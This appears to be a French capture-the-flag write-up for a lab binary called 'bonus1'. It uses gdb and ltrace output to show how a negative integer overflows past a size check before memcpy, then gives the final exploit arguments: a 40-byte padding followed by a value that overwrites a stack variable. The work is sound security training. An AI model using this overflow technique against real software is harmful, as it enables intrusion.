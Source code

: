 ltrace ./bonus1 9 FLOW

atoi(0xbffff83e, 0x8049764, 3, 0x80482fd, 0xb7fd13e4) = 9
memcpy(0xbffff624, "FLOW", 36)                   = 0xbffff624

(gdb) set args "9" "FLOW"

x/x 0xbffff5f0
0xbffff5f0:     0xbffff604

0xbffff604

(gdb) x/x $esp+0x3c
0xbffff62c:     0x00000009

set args "-12" $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A"')

(gdb) x/32wx 0xbffff414
0xbffff414:     0x41306141      0x61413161      0x33614132      0x41346141
0xbffff424:     0x61413561      0x37614136      0x41386141      0x62413961
0xbffff434:     0x31624130      0x080484b9      0x00000009

En donnant 9 a memcpy on observe que nous n'avons toujours pas assez d'espace copier pour ecraser le retour de atoi pour y mettre 0x574f4c46

Il va falloir overflow l'int qui, apres une multiplication par 4 (decalage de 2bits a gauche) soit positif, assez grand pour overflow esp+0x3c

Sachant que le bit de signe est le dernier bit on sait qu'on va devoir etre proche de la max valeur negative de l'int 

1000 0000 0000 0000 0000 0000 0000 0011 << 2
= 0000 0000 0000 0000 0000 0000 0000 1100

-2147483632

"-2147483632" "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A"

Breakpoint 1, 0x08048478 in main ()
(gdb) x/x $esp+0x3c
0xbffff5ec:     0x62413362

Avec le buffer overflow pattern generator, j'obtien un offset de 40
On va pouvoir write 0x574f4c46 apres un padding de 40 bytes

set args "-2147483632" $(python -c 'print "A"*40 + "\x46\x4c\x4f\x57"')